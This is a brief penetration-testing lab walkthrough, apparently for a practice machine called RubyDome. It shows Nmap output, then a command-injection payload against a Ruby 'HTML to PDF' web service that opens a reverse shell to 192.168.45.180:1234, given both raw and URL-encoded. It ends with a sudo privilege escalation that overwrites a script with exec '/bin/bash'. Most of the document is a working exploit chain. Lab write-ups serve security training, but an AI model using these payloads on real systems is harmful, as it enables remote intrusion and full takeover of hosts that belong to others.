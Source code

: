 ____
> [!info]
IP=192.168.190.22

# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|3000/tcp |open|ppp |
```python

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 3000 
![[Pasted image 20240201194410.png]]

![[Pasted image 20240201194354.png]]

```bash
url=http://192.168.45.180:80/?name=%20`ruby -rsocket -e 'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.180", 1234))'`
```

url encode

```bash
http%3A%2F%2F192.168.45.180%3A80%2F%3Fname%3D%2520%60ruby%20-rsocket%20-e%20%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22192.168.45.180%22%2C%201234%29%29%27%60
```

# PrivEsc
```txt
User andrew may run the following commands on rubydome:
    (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
```


```bash
rm/home/andrew/app/app.rb
nano /home/andrew/app/app.rb
```

```rb
exec "/bin/bash"
```

```bash
sudo /usr/bin/ruby /home/andrew/app/app.rb
```




